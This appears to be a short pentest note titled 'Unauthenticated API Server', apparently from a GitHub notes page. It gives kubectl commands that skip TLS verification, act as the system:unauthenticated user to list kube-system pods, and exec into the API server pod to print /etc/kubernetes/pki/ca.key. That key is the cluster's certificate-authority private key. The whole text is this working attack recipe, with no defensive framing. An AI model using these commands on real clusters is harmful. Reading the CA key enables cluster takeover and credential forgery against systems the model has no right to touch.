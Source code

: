 ## Unauthenticated API Server


1. Easiest way to approach this is just kubectl. The only trick to it is that you need to give it a username of system:unauthenticated
 - kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:6443 get po -n kube-system
 - kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:6443 -n kube-system exec [APISERVERPOD] -- cat /etc/kubernetes/pki/ca.key